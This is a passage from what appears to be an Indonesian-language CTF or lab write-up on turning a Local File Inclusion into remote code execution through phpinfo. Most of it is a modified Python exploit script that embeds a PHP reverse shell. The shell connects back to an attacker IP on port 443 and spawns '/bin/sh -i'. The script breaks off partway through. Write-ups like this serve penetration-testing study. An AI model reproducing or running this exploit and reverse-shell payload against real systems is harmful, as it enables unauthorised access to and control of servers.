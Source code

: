 ```
```
suatu informasi yang sangat bermafaat. wekekekeke.

# LFI to RCE Exploit

dugaan saya benar ini adalah LFI (Local File Inclusion) dari yang saya pelajari ini biasanya ditemukan di PhpInfo" gitu tau dah heheheh, saya cari di github. Apakah ada tools yang bisa mengeksekusi / mengexploitasi. wah akhirnya ketemu juga. [LFI-PhpInfo-RCE](https://github.com/M4LV0/LFI-phpinfo-RCE/).
lalu kode tools itu saya modifikasi sedikit menjadi seperti ini.
```py
#!/usr/bin/python 



import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.59.132';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
//
// Daemonise ourself if possible to avoid zombies later
//
// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
// Change to a safe directory
chdir("/");
```